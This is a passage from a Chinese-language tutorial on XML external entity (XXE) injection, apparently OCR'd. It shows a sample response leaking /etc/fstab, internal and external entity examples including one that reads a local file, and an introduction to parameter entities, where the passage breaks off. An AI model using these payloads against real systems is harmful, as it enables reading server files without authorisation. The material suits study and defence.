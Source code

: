   预期response:

  ```xml-dtd
  HTTP/1.0 200 OK
  
  # /etc/fstab: static file system informa...
  #
  # <file system> <mount point> <type> ...
  proc  /proc  proc  defaults  0  0
  # /dev/sda5
  UUID=be35a709-c787-4198-a903-d5fdc80ab2f... # /dev/sda6
  UUID=cee15eca-5b2e-48ad-9735-eae5ac14bc9...
  
  /dev/scd0  /media/cdrom0  udf,iso9660 ...
  
  ```

  但实际上并不起作用，因为XML规范不允许将**外部实体**与**内部实体**结合使用。 

内部实体代码示例：

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe "test" >]>
```

外部实体代码示例：

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

参数实体

然而，攻击者仍然可以扔出手里的另一张牌-——参数实体，在得到以上限制解决方法之前先理解一下以下两个重点：

重点一：

实体分为两种，内部实体和**外部实体**，上面我们举的例子就是内部实体，但是实体实际上可以从外部的 dtd 文件中引用，我们看下面的代码： 

还是以上代码

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
